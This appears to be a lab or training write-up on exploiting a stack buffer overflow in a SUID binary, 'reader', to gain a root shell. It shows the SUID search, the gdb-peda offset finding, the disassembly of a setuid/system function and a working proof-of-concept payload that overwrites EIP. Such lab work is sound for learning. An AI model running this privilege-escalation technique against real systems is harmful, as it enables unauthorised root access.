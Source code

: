 ## Task 1: Connect to the compromised machine and identify interesting binaries

Using bash or any other scripting language, you might want to examine the file system in order to quickly locate interesting binaries. Be reminded that vulnerable SUID binaries can result in privilege escalation.

## Task 2: Examine the interesting binary

Examine the interesting binary. Try to experiment with the data it processes. Can you overflow the buffer?

## Task 3: Find the proper offset to achieve a precise EIP overwrite

Find the proper payload length to achieve a precise EIP overwrite. Gdb-peda's **pattern create** and **pattern offset** commands can help you with that.

## Task 4: Find a reusable function

Inspect the binary using the debugger to find a function that might help you achieve a root shell. Gdb-peda's **info functions** would be a good start.

## Task 5: Spawn a root shell

Reuse the identified function that can provide you with a system shell. This time, try to keep the stdin stream open in order to execute some commands as root.

-------------------------------------------
# Lab part
To find interesting binary, use below command:

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/reader <== seem good
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/sbin/pppd
/bin/mount
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/ping6
/home/xdev/Desktop/reader <== seem good
```

Let's checkout the directory to see what happend:
```bash
ls -la /home/xdev/Desktop/
total 20
drwxr-xr-x  2 xdev xdev 4096 Aug 16  2019 .
drwxr-xr-x 18 xdev xdev 4096 Aug 16  2019 ..
-rwsr-xr-x  1 root root 7580 Aug 15  2019 reader
-r--------  1 root root  419 Aug 15  2019 reader.c
```
we got `reader.c` with no permission, and reader can run on user mode. Now on, We gonna try to overflow the reader to get size and overflow `EIP`:
```bash
$python -c "print('A'*1100)" | ./reader
Provide root password:
 Sorry, this is not correct.
Segmentation fault (core dumped)
```
Open gdb-peda and create pattern size 1100 to `1.txt`
![image1.png](image1.png)

![image2.png](image2.png)

We know the offset is `0x41426e41` which is the return address of `EIP`. User pattern offset feature of peda to get the exact size.

```powershell
gdb-peda$ pattern offset 0x41426e41
1094872641 found at offset: 1012
```

![image3.png](image3.png)

In here, the code successfully override the `EIP` with `0x42424242` which mean `BBBB`. Now, try to find the address which can use to exploit. Run `info functions` to get function's information

![image4.png](image4.png)

We can see in red zone have 4 functions, `0x080484cb strcpy` looks interesting, disassembly it and see what do we got 

```powershell
gdb-peda$ disas 0x080484cb
Dump of assembler code for function srtcpy:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x0
   0x080484d6 <+11>:    call   0x80483b0 <setuid@plt>
   0x080484db <+16>:    add    esp,0x10
   0x080484de <+19>:    sub    esp,0xc
   0x080484e1 <+22>:    push   0x8048600
   0x080484e6 <+27>:    call   0x8048390 <system@plt>
   0x080484eb <+32>:    add    esp,0x10
   0x080484ee <+35>:    mov    eax,0x0
   0x080484f3 <+40>:    leave
   0x080484f4 <+41>:    ret
End of assembler dump.
```

In here, we can see there is an instruction pushing `0x8048600`  into stack, determine what it is.

```powershell
gdb-peda$ x/s 0x8048600
0x8048600:      "/bin", '/' <repeats 37 times>, "sh -p"
```

As you can see, in this have call the sh process, we might use this function strcpy `0x080484cb` to make the poc.
```bash
python -c "print('A'*1012+'\xcb\x84\x04\x08')" > 1.txt
```

We can see in gdb debugger, there are 2 process created after call the that address. Which mean we return address successfully.

![image5.png](image5.png)

- PoC

```bash
(python -c "print('A'*1012+'\xcb\x84\x04\x08'*4)" ; cat) | reader
```

![image6.png](image6.png)

